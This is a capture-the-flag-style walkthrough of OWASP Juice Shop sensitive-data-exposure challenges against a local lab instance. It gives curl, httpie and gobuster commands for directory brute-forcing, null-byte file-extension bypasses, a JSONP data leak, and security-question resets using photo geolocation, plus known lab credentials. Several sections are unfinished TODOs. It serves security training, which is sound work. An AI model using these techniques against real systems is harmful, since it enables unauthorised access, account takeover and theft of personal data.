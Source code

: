 # Sensitive Data Exposure

## Access Log

Wordlists
* [danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
* [dirb/wordlists](https://github.com/v0re/dirb/tree/master/wordlists)
* [kalilinux/dirbuster](https://gitlab.com/kalilinux/packages/dirbuster)

Gain access to any access log file of the server

```bash
# status code is rigged (always 200 instead of 404): ignore 200 with fixed size and add delay to avoid crashing the server
gobuster dir -u http://juiceshop:3000/ \
  -w /hck/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
  --exclude-length 3748 -t 1 --delay 50ms
# output
# /.well-known/security.txt (Status: 200) [Size: 403]
# /api                  (Status: 500) [Size: 3017]
# /assets               (Status: 301) [Size: 179] [--> /assets/]
# /ftp                  (Status: 200) [Size: 11072]
# /profile              (Status: 500) [Size: 1159]
# /promotion            (Status: 200) [Size: 6586]
# /redirect             (Status: 500) [Size: 3119]
# /rest                 (Status: 500) [Size: 3019]
# /robots.txt           (Status: 200) [Size: 28]
# /security.txt         (Status: 200) [Size: 403]
# /snippets             (Status: 200) [Size: 792]
# /video                (Status: 200) [Size: 10075518]

# challenge description suggests "support" team from "/ftp/" path
curl -O juiceshop:3000/ftp/incident-support.kdbx

gobuster fuzz -u http://juiceshop:3000/support/FUZZ \
  -w /hck/share/wordlists/SecLists/Discovery/Web-Content/common.txt \
  --exclude-length 3748 -t 1 --delay 50ms

curl "http://juiceshop:3000/support/logs/access.log.$(date '+%Y-%m-%d')"
```

## Confidential Document

Access a confidential document

```bash
# http://juiceshop:3000/ftp/order_<ORDER_ID>.pdf
curl -O http://juiceshop:3000/ftp/acquisitions.md
```

## Email Leak

* [Wikipedia JSONP](https://en.wikipedia.org/wiki/JSONP)

Perform an unwanted information disclosure by accessing data cross-domain

```bash
http http://juiceshop:3000/rest/user/whoami
# {"user":{}}

# auth is ignored
http http://juiceshop:3000/rest/user/whoami?callback=foo
# /**/ typeof foo === 'function' && foo({"user":{}});
```

## Exposed Metrics

* [Prometheus](https://prometheus.io/docs/introduction/overview)

Find the endpoint that serves usage data to be scraped by a popular monitoring system

```bash
http http://juiceshop:3000/metrics
```

## Forgotten Developer Backup

* [Null byte attacks are alive and well](https://portswigger.net/blog/null-byte-attacks-are-alive-and-well)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)

Access a developer's forgotten backup file

```bash
# %00 -> url encoded %2500
curl http://juiceshop:3000/ftp/package.json.bak%2500.md
```

## Forgotten Sales Backup

Access a salesman's forgotten backup file

```bash
curl http://juiceshop:3000/ftp/coupons_2013.md.bak%2500.pdf
```

## GDPR Data Theft

Steal someone else's personal data without using Injection

```bash
# register user qwerty@xyz.com
curl -sS http://juiceshop:3000/api/Users/ -H 'Content-Type: application/json' --data-raw $'{"email":"qwerty@xyz.com","password":"12345","passwordRepeat":"12345","securityQuestion":{"id":3,"question":"Mother\'s birth date? (MM/DD/YY)","createdAt":"2023-11-07T08:41:38.130Z","updatedAt":"2023-11-07T08:41:38.130Z"},"securityAnswer":"000000"}' | jq

# login + complete an order

# email format with vowel obfuscated "qw*rty@xyz.c*m"
# http://juiceshop:3000/rest/track-order/388a-01862722732380de

# reqister new ueser with different vowels e.g. qw[a]rty@xyz.com and export gdpr data
```

## Leaked Access Logs

Dumpster dive the Internet for a leaked password and log in to the original user account it belongs to

```bash
# "very popular help platform for developers" -> stackoverflow
# "platform often used to share data quickly" -> pastebin
https://stackoverflow.com/users/959592/bkimminich
https://stackoverflow.com/questions/57061271/less-verbose-access-logs-using-expressjs-morgan
https://pastebin.com/4U1V1UjU

curl -sS https://pastebin.com/raw/4U1V1UjU | grep pass
# 161.194.17.103 - - [27/Jan/2019:11:18:35 +0000] "GET /rest/user/change-password?current=0Y8rMnww$*9VFYE%C2%A759-!Fg1L6t&6lB&new=sjss22%@%E2%82%AC55jaJasj!.k&repeat=sjss22%@%E2%82%AC55jaJasj!.k8 HTTP/1.1" 401 39 "http://localhost:3000/" "Mozilla/5.0 (Linux; Android 8.1.0; Nexus 5X) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.99 Mobile Safari/537.36"
```

## Leaked Unsafe Product

Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous

```bash
TODO
```

## Login Amy

Log in with Amy's original user credentials

```bash
# husband: Kif Kroker
# https://futurama.fandom.com/wiki/Amy_Wong-Kroker

# The challenge description contains a few sentences which give away some information how Amy decided to strengthen her password.
# (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")
# https://www.grc.com/haystack.htm

http http://juiceshop:3000/rest/user/login email="amy@juice-sh.op" password="K1f....................."
```

## Login MC SafeSearch

Log in with MC SafeSearch's original user credentials

```bash
# https://www.youtube.com/watch?v=v59CX2DiX0Y
http http://juiceshop:3000/rest/user/login email="mc.safesearch@juice-sh.op" password="Mr. N00dles"
```

## Meta Geo Stalking

Determine the answer to John's security question

```bash
curl -sS -O http://juiceshop:3000/assets/public/images/uploads/favorite-hiking-place.png

# GPS Position
exiftool favorite-hiking-place.png

# convert https://gps-coordinates.org/coordinate-converter.php
# DMS (degrees, minutes, seconds): 36 deg 57' 31.38" N, 84 deg 20' 53.58" W
# DD (decimal degrees): 36.95871666666667, -84.34821666666666
# address: 1–251 Two Bridge Rd, London, KY 40744, United States

# security question: What's your favorite place to go hiking?
curl -sS http://juiceshop:3000/rest/user/reset-password \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"john@juice-sh.op","answer":"Daniel Boone National Forest","new":"12345","repeat":"12345"}'
```

## Misplaced Signature File

* [Sigma - Generic Signature Format for SIEM Systems](https://sigmahq.io)

Access a misplaced SIEM signature file.
```bash
curl http://juiceshop:3000/ftp/suspicious_errors.yml%2500.md -o suspicious_errors.yml
```

## NFT Takeover

Take over the wallet containing our official Soul Bound Token (NFT).

```bash
TODO missing
```

## Reset Uvogin's Password

Reset Uvogin's password via the Forgot Password mechanism

```bash
TODO
```

## Retrieve Blueprint

Deprive the shop of earnings by downloading the blueprint for one of its products

```bash
TODO
```

## Visual Geo Stalking

Determine the answer to Emma's security question

```bash
curl -sSO http://juiceshop:3000/assets/public/images/uploads/IMG_4253.jpg

# try google upload https://images.google.com

# security question: Company you first work for as an adult?
curl -sS http://juiceshop:3000/rest/user/reset-password \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"emma@juice-sh.op","answer":"ITsec","new":"12345","repeat":"12345"}'
```
